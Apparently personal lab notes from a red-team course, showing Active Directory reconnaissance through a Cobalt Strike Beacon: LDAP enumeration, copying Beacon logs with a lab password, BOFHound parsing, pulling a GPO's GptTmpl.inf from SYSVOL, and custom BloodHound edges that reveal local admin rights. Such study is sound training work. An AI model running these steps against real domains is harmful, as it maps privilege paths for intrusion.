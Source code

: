 - Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n
```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\

download \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.

![[Pasted image 20250714100312.png]]

> S-1-5-21-3926355307-1661546229-813047887-1107 is a member of S-1-5-32-544



-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2101'}) MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2102'})
MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.